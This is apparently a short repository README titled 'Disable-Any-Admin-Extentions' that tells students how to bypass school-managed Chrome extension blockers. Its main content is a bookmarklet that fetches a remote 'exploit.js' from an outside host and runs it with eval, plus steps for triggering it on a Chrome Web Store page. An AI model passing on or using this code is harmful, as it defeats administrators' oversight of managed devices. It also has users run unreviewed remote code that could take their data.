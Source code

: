 # Disable-Any-Admin-Extentions

do YOU want to bypass your school blocker?
heres how!
(might not work with some computers because of updates and stuff)

(video coming soon!)

Copy this code and put it in a bookmark. Code: javascript:fetch("https://compactcow.com/ltbeef/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});

Click on the bookmark (not on "New Tab")

When you are brought here: "https://chrome.google.com/webstoreEUGLW", click again on the bookmark.

HAVE FUN!!!
